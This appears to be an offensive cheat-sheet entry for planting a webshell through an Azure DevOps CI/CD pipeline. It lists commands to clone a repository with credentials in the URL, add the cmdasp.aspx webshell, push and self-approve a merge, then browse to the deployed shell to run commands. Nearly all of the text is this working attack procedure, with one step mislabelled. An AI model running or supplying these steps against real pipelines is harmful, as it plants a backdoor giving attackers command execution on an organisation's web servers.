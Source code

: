 ## Azure DevOps CI/CD command injection

### Requirements: Authenticated access to Azure DevOps tenant, and privileges to write into the CI/CD pipeline.

### Steps:

#### 1) Go to: The project the user has access in -> Pipelines -> Builds -> View

#### 2) Clone the repository we have access to

    git clone http://USER:PASSWORD@DOMAIN.COM/path/to/repository 

#### 3) Create a new branch in the repository directory

    git checkout -b shell

#### 4) Copy a webshell into our current directory

    cp /usr/share/webshells/aspx/cmdasp.aspx . 

#### 5) 

    git add .

#### 6) Upload the file to the webserver

    git commit -m 'pwn3d!' 

#### 7) Push the commit to the Azure DevOps repository

    git push -u origin shell 

#### 8) Create a pull request to merge this branch into the master branch

#### 9) Set a title, a work item, and then create

#### 10) Approve -> Complete

#### 11) Browse to http://DOMAIN.COM/cmdasp.aspx to execute commands!
